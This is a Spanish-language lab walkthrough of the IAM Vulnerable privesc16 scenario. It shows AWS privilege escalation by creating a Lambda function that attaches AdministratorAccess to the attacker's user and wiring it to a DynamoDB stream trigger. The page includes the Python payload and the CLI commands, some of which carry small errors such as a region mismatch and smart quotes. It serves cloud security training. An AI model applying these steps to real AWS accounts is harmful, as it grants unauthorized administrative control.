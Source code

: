 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# PassRoleToNewLambdaThenTrigger

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc16. En este caso de explotación, el usuario de pruebas no tiene los permisos de invocar funciones lamba, solo mapear triggers a otro evento, en este caso a DynamoDB, por lo cual requiere que otro usuario actualice o que la base de datos se actualice para que funciones este caso de explotación.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc16
{% endembed %}

Un atacante con los permisos <mark style="color:green;">**iam:PassRole**</mark> , <mark style="color:green;">**lambda:CreateFunction**</mark> y <mark style="color:green;">**lambda:CreateEventSourceMapping**</mark> (y posiblemente dynamodb:PutItem y dynamodb:CreateTable), pero ~~sin el permiso _lambda:InvokeFunction_~~, puede escalar privilegios creando una nueva función de Lambda y conectándola a una tabla de DynamoDB. Posteriormente, cuando se inserta una nueva fila en la tabla, la función Lambda ejecuta un código que aumenta los privilegios del usuario.

### Configuración Inicial

Usuario del laboratorio: privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user con las políticas:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener un rol existente que incluya los permisos:

* iam:AttachUserPolicy
* dynamodb:GetRecords&#x20;
* dynamodb:GetShardIterator
* dynamodb:DescribeStream
* dynamodb:ListStreams

y las funciones de Lambda deben tener permitido asumir este rol.&#x20;

La cuenta de AWS también necesita tener una tabla DynamoDB habilitada para transmisión.&#x20;

Alternativamente, si no existe una tabla DynamoDB, este método de escalada de privilegios aún puede funcionar si el atacante tiene el permiso dynamodb:CreateTable.

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user

{% hint style="info" %}
Al momento de configurar el perfil, se tiene que tomar en cuenta la región, que sea la misma donde se encuentra la Base Dynamodb,
{% endhint %}

### Explotación

En este escenario, se tiene que aprovechar del privilegio de <mark style="color:green;">lambda:CreateFunction</mark> para crear una función de lambda maliciosa que tendrá el código para adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda en Python es la siguiente:

{% code title="code.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc16- PassRoleToNewLambdaThenTriggerWithNewDynamo-user',
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo con el permiso <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-1 --profile privesc16
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

Ahora que hemos creado nuestra función maliciosa vamos aprovechar nuestro otro privilegio de <mark style="color:green;">lambda:CreateEventSourceMapping</mark> para vincular nuestra función a cualquier evento que ocurra sobre una DynamoDB. En otras palabras, es necesario que en el ambiente que estemos auditando exista una tabla de DynamoDB.

<pre data-overflow="wrap"><code><strong>aws lambda create-event-source-mapping --function-name privesc --event-source-arn arn:aws:dynamodb:us-east-1:037572360634:table/Vulnerable/stream/2022-0608T00:18:02.839 --enabled --starting-position LATEST --region us-east-1 --profile privesc16
</strong></code></pre>

Dado que el usuario actual no tiene ningún permiso de DynamoDB, no es posible cargar una nueva fila y desencadenar el exploit. En su lugar, el atacante debe esperar a que otro usuario o un servicio actualice la tabla.

#### Uso de usuario alterno

Cuando otro usuario cambie, actualice o elimine datos de la base de DynamoDB, se ejecutará el trigger del lambda, a continuación se ejecutara un comando que actualiza la tabla simulando ser otro usuario AWS

```
aws dynamodb put-item --table-name privesc16 --item ‘{“test”:{“S”:”whatever”}}’
--region us-west-2
```

La acción en la tabla de DynamoDB hizo que se ejecutara la función Lambda vinculada, lo que aumentó los permisos del atacante: este método de escalada de privilegios es más fácil si el atacante también tiene los permisos <mark style="color:green;">dynamodb:CreateTable</mark> y <mark style="color:green;">dynamodb:PutItem</mark>, porque entonces el atacante puede crear una tabla de DynamoDB adecuada y cargar un elemento para activar el exploit.

<figure><img src="../../../.gitbook/assets/image (8) (4).png" alt=""><figcaption><p>Elevación de privilegios exitosa</p></figcaption></figure>

